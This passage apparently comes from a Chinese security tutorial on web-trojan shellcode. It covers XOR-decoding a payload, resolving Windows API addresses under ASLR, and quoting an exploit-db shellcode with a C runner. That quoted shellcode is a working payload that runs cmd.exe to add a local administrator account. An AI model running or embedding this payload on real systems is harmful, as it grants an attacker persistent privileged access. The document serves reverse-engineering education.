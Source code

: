 阅读代码很容易就可以知道SC为最终处理完的Shellcode。

将SC输出，在浏览器中执行一下：

![enter image description here](http://drops.javaweb.org/uploads/images/40dfd6e72229009248dbb5b0cf77b344c4147da9.jpg)

即可拿到解密后的shellcode，简单的看一下，代码中出现了大量的重复内容：E2，而直接将内容Unescape也没有看到像样的明文，这时可以经验得出，这段代码是被XOR加密过的，因此可以在工具中填入密钥e2，然后解开即可看到常量部分，这个就是这段代码想要下载的文件

![enter image description here](http://drops.javaweb.org/uploads/images/40757b1ebcb632faeae5a128ab567caf216d6aa2.jpg)

这段代码的调试放到下章再说，不过并不难，而且这个URL也失效了，所以你也大可参照下一节(V.3)的相关内容，如果觉得一切合适了，可以放心大胆的调试。

V.3 Shellcode 123
=================

* * *

最后，简单介绍一下大家可能会比较在意的内容，这也是SHELLCODE编写的一个必备条件之一，即shellcode如何获得函数地址，更甚之，shellcode如何通用化呢？

先说一下如何手动获得一个系统函数的地址。

![enter image description here](http://drops.javaweb.org/uploads/images/5a859ee127586e84124200d85a3711d084766cf3.jpg)

图：`Dependency Walker`显示的`ShellExecuteA`导出函数的偏移量。用该值加上DLL的`Image Base`即可得到本机适用的函数地址（无ASLR情况下）。

![enter image description here](http://drops.javaweb.org/uploads/images/3708bfe3464c53cc855791df533d5a98f32df7f9.jpg)

图：shell32.dll (32bit, 6.1.7601.18762)的Image Base

如上图，无ASLR的环境下，该函数的地址是`0x73800000 + 0x247bcd = 0x73a47bcd`。

![enter image description here](http://drops.javaweb.org/uploads/images/796f3056815c5833eb30923f055d709779175735.jpg)

图：TencentDl.exe (32 bit)中的函数地址和模块起始地址。

`0x75547bcd - 0x247bcd = 0x75300000 =>`该模块当前的Image Base，这个值不同于文件声明的值的原因是开启了ASLR。

可以试验一下，`ShellExecuteExA`的偏移是`0x247b32`，则`0x75300000+0x247b32=0x75547b32`应该是该函数地址，查阅可知确实如此：

![enter image description here](http://drops.javaweb.org/uploads/images/d7dcbe8a8707acd71a9f0a5a8e74f18a4a8e3e5d.jpg)

但是除了上面的ASLR的情况，微软的库函数的地址自己也会随着系统变化、补丁更新等会发生变化，因此，硬编码一个地址必然是不行的，那么作为一个网马，如何才能做到让shellcode获取所需API的地址呢？

让我们参考一下exploit-db.com提供的shellcode (3]：

```
char shellcode[] = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
      "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
      "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
      "\x34\xaf\x01\xc6\x45\x81\x3e\x57\x69\x6e\x45\x75\xf2\x8b\x7a"
      "\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf"
      "\xfc\x01\xc7\x68\x4b\x33\x6e\x01\x68\x20\x42\x72\x6f\x68\x2f"
      "\x41\x44\x44\x68\x6f\x72\x73\x20\x68\x74\x72\x61\x74\x68\x69"
      "\x6e\x69\x73\x68\x20\x41\x64\x6d\x68\x72\x6f\x75\x70\x68\x63"
      "\x61\x6c\x67\x68\x74\x20\x6c\x6f\x68\x26\x20\x6e\x65\x68\x44"
      "\x44\x20\x26\x68\x6e\x20\x2f\x41\x68\x72\x6f\x4b\x33\x68\x33"
      "\x6e\x20\x42\x68\x42\x72\x6f\x4b\x68\x73\x65\x72\x20\x68\x65"
      "\x74\x20\x75\x68\x2f\x63\x20\x6e\x68\x65\x78\x65\x20\x68\x63"
      "\x6d\x64\x2e\x89\xe5\xfe\x4d\x53\x31\xc0\x50\x55\xff\xd7";

int main(int argc, char **argv){int (*f)();f = (int (*)())shellcode;(int)(*f)();}

```
